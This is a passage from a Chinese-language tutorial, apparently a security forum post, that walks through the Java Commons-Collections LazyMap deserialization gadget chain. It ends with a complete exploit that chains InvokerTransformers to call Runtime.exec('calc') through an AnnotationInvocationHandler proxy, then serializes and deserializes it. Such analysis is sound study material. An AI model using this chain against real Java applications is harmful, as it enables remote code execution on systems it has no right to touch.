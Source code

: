 ‍

可以明显看出 就是构造的时候传进去`Transformer`类即可

所以可以构造如下代码

```java
 Map<Object,Object> lazyMap = LazyMap.decorate(map,chainedTransformer);
```

那么往上找一下谁调用了`get()`方法并且可以传值为Object

‍

于是作者找到了`AnnotationInvocationHandler#invoke`方法调用了`get`方法

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-c19e7fc567a45371c91245c648d7a01f9c59537c.png)

又因为这个是`invoke`方法，所以可以想到如果传入的是一个动态代理，并且调用的这个处理器类就可以默认去执行他的`invoke`方法，所以其实也很清晰，就是通过传入一个代理类然后去调用一个方法即可触发这个代理调用处理器的`invoke`方法，那么这里的`invoke`是有几个条件的

1. 不能调用`equals`
2. 无参方法

结果`readObject()`中真的就存在一个不受限制的无参方法`entrySet`

‍

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-2ce0bd95990e48ad8247720801e677e70aac64e7.png)

所以这里就可以写exp了，将我们代理类以Map类传入，就可以走通了

```java
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})} ;

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,chainedTransformer);

        Class c =  Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cls  =  c.getDeclaredConstructor(Class.class,Map.class);
        cls.setAccessible(true);
        InvocationHandler h = (InvocationHandler) cls.newInstance(Override.class,lazyMap);

        Map maproxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},h);

        Object o = cls.newInstance(Override.class,maproxy);

        serialize(o);
        unserialize("ser.bin");
```
